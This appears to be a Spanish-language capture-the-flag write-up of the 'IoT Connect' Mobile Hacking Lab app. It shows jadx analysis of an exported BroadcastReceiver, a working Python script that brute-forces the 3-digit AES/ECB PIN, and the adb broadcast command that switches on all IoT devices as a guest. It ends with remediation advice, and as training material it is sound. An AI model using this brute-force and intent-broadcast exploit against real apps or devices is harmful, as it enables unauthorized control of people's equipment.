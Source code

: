 # 🔓 IoT Connect - Análisis y Explotación de BroadcastReceiver Vulnerable

Este repositorio documenta el análisis completo y explotación de una vulnerabilidad crítica en una aplicación Android IoT ficticia, **IoT Connect**, utilizada como laboratorio para prácticas de pentesting móvil.

---

## 🧪 Instalación y Registro

Comenzamos instalando el APK en el dispositivo.

![Instalación del APK](imagenes/01_instalacion_apk.png)

Creamos una nueva cuenta de usuario:  
`fr3do : fr3do`

![Formulario de registro](imagenes/02_signup_form.png)  
![Registro exitoso](imagenes/03_signup_success.png)  
![Inicio de sesión](imagenes/04_login.png)

---

## 🔍 Exploración del Comportamiento

Una vez dentro de la app, notamos que algunos dispositivos pueden ser controlados.

![Vista de control de artefactos](imagenes/05_dispositivos_apagados.png)

Pero como usuario invitado, aparece el mensaje:

> **"Sorry Guest..."**

Esto sugiere que existen funciones ocultas o limitadas por permisos. Es el punto de partida para el análisis en `jadx-gui`.

![Mensaje de error de Guest](imagenes/06_sorry_guest.png)

---

## 🧬 Análisis Estático con jadx-gui

### AndroidManifest.xml

Exploramos el archivo `AndroidManifest.xml` y encontramos:

```xml
<receiver
    android:name="com.mobilehackinglab.iotconnect.MasterReceiver"
    android:enabled="true"
    android:exported="true">
    <intent-filter>
        <action android:name="MASTER_ON"/>
    </intent-filter>
</receiver>
```
✅ Está exportado, lo que significa que cualquier app externa o ADB puede enviarle un intent.
Componentes Relevantes

Componentes Relevantes
Componentes encontrados en el AndroidManifest:

`MainActivity`, `LoginActivity`, `SignupActivity`
`IoTNavigationActivity`, `HomeActivity`
`MasterSwitchActivity` – Su nombre sugiere control administrativo o maestro.
`CommunicationManager` – Maneja las comunicaciones, y contiene el método `initialize()` que registra dinámicamente el receptor para `MASTER_ON`.

---

## 🧠 Lógica en CommunicationManager
En la clase `CommunicationManager`:

Se registra dinámicamente un `BroadcastReceiver` para la acción `MASTER_ON`.
Se extrae un parámetro `key` del `Intent`.
Se verifica mediante `Checker.INSTANCE.check_key(key)`.
Si es válido, se llama a `turnOnAllDevices(context)`.

---

## 🔐 Análisis de Seguridad: Checker
En la clase `Checker` se encuentra lo siguiente:
```
private static final String ds = "OSnaALIWUkpOziVAMycaZQ==";

public final boolean check_key(int key) {
    return decrypt(ds, key).equals("master_on");
}
```
El string cifrado se desencripta con AES/ECB/PKCS5Padding.
La clave se genera con el valor entero del PIN proporcionado.
Si el resultado es `"master_on"` el acceso es válido.

---

## 🧨 Fuerza Bruta del PIN
Como el PIN es de 3 dígitos, creamos un script Python para romper la clave por fuerza bruta.

### Código Python
```
from Crypto.Cipher import AES
from base64 import b64decode

ds = "OSnaALIWUkpOziVAMycaZQ=="

def generate_key(key):
    key_bytes = bytearray(16)
    static_bytes = str(key).encode("utf-8")
    key_bytes[:len(static_bytes)] = static_bytes[:16]
    return bytes(key_bytes)

def decrypt(ds, key):
    secret_key = generate_key(key)
    cipher = AES.new(secret_key, AES.MODE_ECB)
    decrypted = cipher.decrypt(b64decode(ds))
    return decrypted.decode("utf-8")

for i in range(100, 1000):
    try:
        result = decrypt(ds, i)
        if "master_on" in result:
            print(f"✔️ Key encontrada: {i}, Resultado: {result}")
            break
    except Exception:
        continue
```

Resultado:

```
✔️ Key encontrada: 345, Resultado: master_on
```

---

## 🚀 Explotación desde ADB
Ahora podemos explotar la vulnerabilidad usando el siguiente comando ADB:


```
adb shell am broadcast -a MASTER_ON --ei key 345
```
Resultado:

✅ El sistema responde:
`All devices are turned on`
✅ Confirmamos que, incluso como "Guest", pudimos activar todos los artefactos IoT.

---

## ✅ Conclusión
Se descubrió un `BroadcastReceiver` vulnerable expuesto sin validación de permisos.
Fue posible forzar la clave por fuerza bruta (solo 3 dígitos).
Se obtuvo control total de los dispositivos conectados simplemente enviando un `Intent`.

---

## 🛡️ Recomendaciones de Seguridad
Establecer `android:exported="false"` para componentes sensibles.
Validar siempre permisos y autenticación en receivers.
Utilizar claves fuertes y derivadas de métodos seguros (PBKDF2, bcrypt, etc).
No usar AES en modo ECB (es inseguro y predecible).
Evitar lógica de seguridad crítica en el lado cliente.

---

## 📁 Créditos
Análisis realizado por fr3do

Laboratorio: IoT Connect - Mobile Hacking Lab
